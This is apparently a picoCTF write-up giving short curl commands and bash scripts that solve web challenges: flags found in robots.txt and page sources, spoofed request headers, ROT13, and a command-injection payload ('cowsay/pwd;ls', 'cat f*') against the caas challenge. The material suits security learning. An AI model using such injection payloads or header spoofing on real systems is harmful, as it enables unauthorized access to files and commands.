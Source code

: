 ## :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

## 🕵️‍♀️ - Insp3ct0r - `18`
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_insp3ct0r.sh)
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```


## :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

## :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

## :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

## 🥕 - Mod 26 - `144`
```sh
# ROT13
$ echo _ | tr 'n-za-mN-ZA-M' 'a-zA-z'

# or alternatively
$ echo _ | tr "A-Za-z" "N-ZA-Mn-za-m"

```

## 🉑 - Some Assembly Required 1 - `152`
###### hint: path in script

## 🇭🇺 - scavenger hunt - `161`
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_scavenger_hunt.sh)
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

## :baseball: - login - `200`
###### hint: base64

## :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

[github flavor emoji list](https://gist.github.com/rxaviers/7360908)

